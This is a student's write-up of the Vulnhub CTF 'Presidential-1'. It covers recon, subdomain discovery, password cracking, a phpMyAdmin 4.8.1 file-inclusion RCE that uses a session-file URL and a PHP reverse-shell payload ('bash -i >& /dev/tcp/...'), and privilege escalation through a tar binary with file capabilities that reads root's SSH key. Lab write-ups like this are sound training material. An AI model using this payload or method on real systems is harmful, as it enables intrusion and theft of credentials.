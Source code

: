 # Report Cybersecurity : Presidential Hacking
Simone Cossaro IN2000201

## Introduction

This report presents the steps taken to solve the Vulnhub CTF (Capture the Flag) challange called Presidential-1. 

The attack was carried out following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

In the presented scenario the US state is developing the registration website for the presidential elections and wants to test the security of the server before the website and registration system are launched. One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system and falsifying the votes.

The goal of the challenge is to gain root access to the server.

## Tools

VirtualBox is the tool needed for this challenge to run the following two virtual machines:
* the Presidential VM available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
The two virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the process of discovering live hosts on a network. Executing it will first allow us to find out if the presidential machine is connected to the network and if so what its IP address is. 

Once the IP address of the machine has been determined, we proceed by trying to identify the services and open ports and the software versions on it. The `nmap` command allows us to do this.

![Steps of recognition](images/reconnaissance.png)  

The scan shows that the machine is running a web service on port 80 with http protocol and a remote shell on port 2082 with ssh protocol.

## Enumeration

By visiting the main page of the web service on port 80, you will find an email address at the bottom (contact@votenow.local). This way we get a domain name: votenow.local.
It's possible to associate the domain name with the IP address by adding a line to the /etc/hosts file.

In this enumeration phase, the use of Gobuster, a tool for scanning directories and files on web servers, is essential. It is used to locate hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but may still be accessible.
The gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist such as potential directory, file, subdomain, etc., until it finds valid resources or runs out of options.

![Steps of enumeration](images/enumeration.png)  

A config.php.bak file was detected. Usually these files contain a backup copy of the original config.php file. It in turn contains configuration information that may be important.
In fact, the file contains the user's credentials which could prove useful later.

## Exploiting

Using Gobuster, this time with the vhost option, subdomains can be found. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt) a single subdomain was found: datasafe.votenow.local.
On the web page that is obtained by connecting to the subdomain, there is an access panel to "phpMyAdmin". By entering the credentials obtained previously it is possible to log in and by navigating the page you can access a SQL database containing the hash of the password of an admin user.

The hash alone cannot be used. John the Ripper is a tool to use to crack the password. With the famous rockyou dictionary you can force the password corresponding to the hash, which turns out to be Stella.

Browsing the page another thing you can easily notice is that the version of phpMyAdmin is old. It is indicated that the version of the web application is 4.8.1 while the latest stable version is 4.9.5.

Searchsploit is a tool that can be used to search for known exploits and vulnerabilities in different versions of software and operating systems.
It turns out there are three vulnerabilities, one of which has command execution as impact. Searchsploit can give us more information about this vulnerability and how it can be exploited.
To exploit this vulnerability it is necessary to:
1) be authenticated
2) get the phpMyAdmin cookie
3) run a SQL query
4) edit the URL accurately.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

On the web page we are allowed to execute SQL queries.

The normal functioning of the web application does not allow the interpretation and execution of code inserted in the backticks. However, by carefully structuring the URL and inserting a php script between backticks into a SQL query, it is possible to obtain the execution of the script.
The URL must have the following format:
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/ php/session/sess_{cookieValue}
where {cookieValue} is the cookie value of a current session.

By listening to a netcat listener on port 443 and then injecting a SQL query like this:
select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'
and by structuring the URL in the way illustrated, you obtain a reverse shell on the presidential machine.

![Exploitation of the vulnerability](images/sql_vuln.png)

At this point you can authenticate with the admin user credentials extracted previously.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is to list the capabilities associated with the available executable files with the getcap command. this way we see that we have "+EP" in the tarS binary. This binary allows us to compress any file on the system without being root. Therefore, once compressed, we will only have to decompress it to be able to read the contents of the file.
There is an id_rsa file in the /root/.ssh/ directory. This file usually contains an RSA private key used for SSH authentication. This private key is associated with a public/private key pair and is used to authenticate the user on remote servers via SSH.
By having '+ep' we can compress the “id_rsa“ file, decompress it and gain visibility to the content.

The tarS -xvf id_rsa.tar /root/.ssh/id_rsa command creates a tar archive called id_rsa.tar containing the id_rsa file present in the /root/.ssh/ directory.

The tar -xvf id_rsa.tar command, however, extracts the files from the id_rsa.tar archive.

After executing these two commands, the id_rsa file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

Now having the RSA private key, we can remotely connect to the shell on the presidential machine via the ssh protocol.

![Root access](ssh_&_final_flag.png)
